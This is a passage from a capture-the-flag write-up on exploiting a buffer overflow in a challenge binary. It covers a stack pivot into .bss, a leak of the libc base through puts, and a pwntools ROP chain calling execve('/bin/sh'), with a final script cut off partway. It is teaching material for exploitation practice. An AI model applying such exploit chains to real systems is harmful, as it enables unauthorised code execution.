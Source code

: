     Here comes the best part in this challenge, when we call `gets` function, it will read the input and write it to `0x404058` which is our `rbp`. So when `leave; ret` instruction is executed, it will not cause segmentation fault because now `rbp` has valid address.<br>
    So now register values will be:
    ```
     RBP  0x404058 —▸ 0x404030 ◂— 0
     RSP  0x7ffd17b46090 —▸ 0x7ffd17b46000 —▸ 0x7ffd17b46050 —▸ 0x7ffd17b46080 —▸ 0x404058 ◂— ...
    *RIP  0x40121f (main+80) ◂— call rdx
    ```
    Now when program executes `leave; ret` instruction, our new `rsp` changes to `0x404030`. Remember what we kept at `0x404030`? We kept out small rop chain of `pop rbp; 0x0000000000404150; leave; ret`.<br>
    This changes our rsp to `main` and we can perform our exploit.
    Since our puts address has already been leaked, we can calculate the `libc` base address and use it to solve this challenge.<br>

This is our ROP chain:
```python
rop = ROP(libc)
rop.rdi = next(libc.search(b'/bin/sh\x00'))
rop.rsi = 0
rop.rbp = 0x404198
rop.raw(libc.address + 0x00000000000981ad) # pop rdx ; leave ; ret
rop.raw(0)
rop.execve()
```

Now we can send our final payload:
```python
p.sendline(flat({
    0x28: rop.chain()
}))
```
We used `0x28` offset because our RIP lies here. Remember, our buffer is `0x20` bytes and saved rbp is `0x8` bytes. So our RIP lies at `0x28` offset.<br>

## 0x03 - Final Script
```python
from pwn import *

elf =  context.binary = ELF('./vuln_patched')
libc = ELF('./libc.so.6')
gs = '''
'''
# ========= Gadgets =========
pop_rbp = 0x401181
leave_ret = 0x401226
pop_rcx = 0x40117e
ret = 0x401227

p = process()
# gdb.attach(p, gdbscript=gs)

payload = flat({
    0x20:0x404038 + 0x20,  #Setting this as RBP
    0x28:0x0000000000401205,  # RIP --> gets of main
}, filler=b'\x00')

log.info(f'Sent payload: {payload}')
p.sendline(payload)
input("Press Enter to continue...")
payload = flat({
    0: [
        pop_rbp,  # pop rbp
        0x0000000000404150,  # points to main address in .bss
```